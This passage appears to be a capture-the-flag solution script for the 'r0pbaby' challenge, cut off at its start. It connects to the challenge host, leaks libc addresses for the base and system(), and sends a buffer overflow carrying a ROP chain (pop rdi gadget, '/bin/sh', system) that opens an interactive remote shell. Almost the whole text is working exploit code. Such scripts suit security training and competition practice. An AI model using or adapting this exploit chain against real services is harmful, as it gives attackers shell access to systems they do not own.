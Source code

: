 >	base = msg[offset+2: offset2]	
>	return long(base, 16)
>
>def get_libc_func_addr(h, function):
>	h.send("2\n")
>	msg = h.recvuntil("Enter symbol: ")
>	h.send(function+"\n")
>	msg = h.recvuntil("4) Exit\n: ")
>	offset = msg.find(":")
>	offset2 = msg.find("\n")
>	addr = msg[offset+2: offset2]
>	return long(addr, 16)
>
>def nom_rop_buffer(h, rop_buffer):
>	h.send("3\n")
>	msg = h.recvuntil("Enter bytes to send (max 1024): ")
>	rop_buffer_len = str(len(rop_buffer))
>	h.send(rop_buffer_len + "\n")
>	h.send(rop_buffer + "\n")
>	msg = h.recvuntil("Bad choice.\n")	
>	return
>
>host = "r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me"
>port = 10436
>
>rdi_gadget_offset = 0x7583e6
>bin_sh_offset = 0x66dcd5
>
>h = remote(host, port)
>
>msg = h.recvuntil(": ")
>libc_base = get_libc_base(h)
>print "[+] libc base: [%x]" % libc_base
>
>rdi_gadget_addr = libc_base - rdi_gadget_offset
>print "[+] RDI gadget addr: [%x]" % rdi_gadget_addr
>
>bin_sh_addr = libc_base - bin_sh_offset
>print "[+] \"/bin/sh\" addr: [%x]" % bin_sh_addr
>
>system_addr = get_libc_func_addr(h, "system")
>
>print "[+] system addr: [%x]" % system_addr
>
>rbp_overwrite = "A"*8
>
>rop_buffer = rbp_overwrite + pack('<Q', rdi_gadget_addr) + pack('<Q', bin_sh_addr) + pack('<Q', system_addr)
>nom_rop_buffer(h, rop_buffer)
>
>h.interactive()
>
>h.close()
>```
